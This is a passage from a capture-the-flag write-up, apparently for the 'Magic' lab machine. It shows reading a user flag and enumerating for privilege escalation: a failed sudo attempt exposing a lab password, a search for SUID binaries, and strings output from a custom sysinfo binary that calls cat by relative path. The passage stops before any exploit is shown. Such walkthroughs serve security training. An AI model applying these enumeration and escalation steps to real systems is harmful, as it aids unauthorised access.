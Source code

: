 Great! We were able to successfully change user to theseus.

### User Flag

```shell
cat /home/theseus/user.txt
```

# Privilege Escalation
### Finding sysinfo custom binary with SETUID bit set using cat binary without absolute path
We tried using sudo -l but the user theseus wasnt able to run sudo -l:

```shell
theseus@magic:/var/www/Magic/images/uploads$ sudo -l
sudo -l
[sudo] password for theseus: Th3s3usW4sK1ng
Sorry, user theseus may not run sudo on magic.
```

Enumerating SUIDs inside /bin we found something interesting:

```shell
find /bin -perm -4000 -type f 2>/dev/null

/bin/umount
/bin/fusermount
/bin/sysinfo
/bin/mount
/bin/su
/bin/ping
```

The sysinfo binary is not a default binary, maybe it does something interesting. We can run it as follow:

```shell
/bin/sysinfo
/bin/sysinfo -h
/bin/sysinfo --help
```

It seems like we cant get much information just by running it or using help parameter.

Lets examine the binary using strings:

```shell
strings /bin/sysinfo

<SNIP>
[]A\A]A^A_
popen() failed!
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
free -h
;*3$"
zPLR
GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0
<SNIP>
```

